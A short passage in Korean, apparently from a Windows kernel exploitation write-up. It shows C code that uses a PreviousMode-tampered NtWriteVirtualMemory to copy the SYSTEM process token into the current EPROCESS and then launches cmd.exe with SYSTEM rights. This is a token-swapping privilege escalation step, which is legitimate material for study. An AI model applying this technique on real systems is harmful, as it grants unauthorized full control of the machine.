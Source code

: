 다시 분석 머신으로 돌아와 아무 버튼이나 누르면 다음 스텝을 진행합니다. 

```c
pNtWriteVirtualMemory(GetCurrentProcess(), (ULONGLONG)EPROCESS + 0x4b8 , (ULONGLONG)SYSTEM_EPROCESS + 0x4b8, sizeof(ULONGLONG), &dwbytes);
system("cmd.exe")
```

PreviousMode 변조를 통해 `pNtWritevirtualMemory` 함수로 커널 Read/Write가 가능해졌습니다. 시스템 EPROCESS의 Token으로 Token Swapping을 한 뒤 cmd 프로세스를 실행하면 NT AUTORITY\SYSTEM 권한의 cmd가…!

![image.png](ko/image%208.png)

?
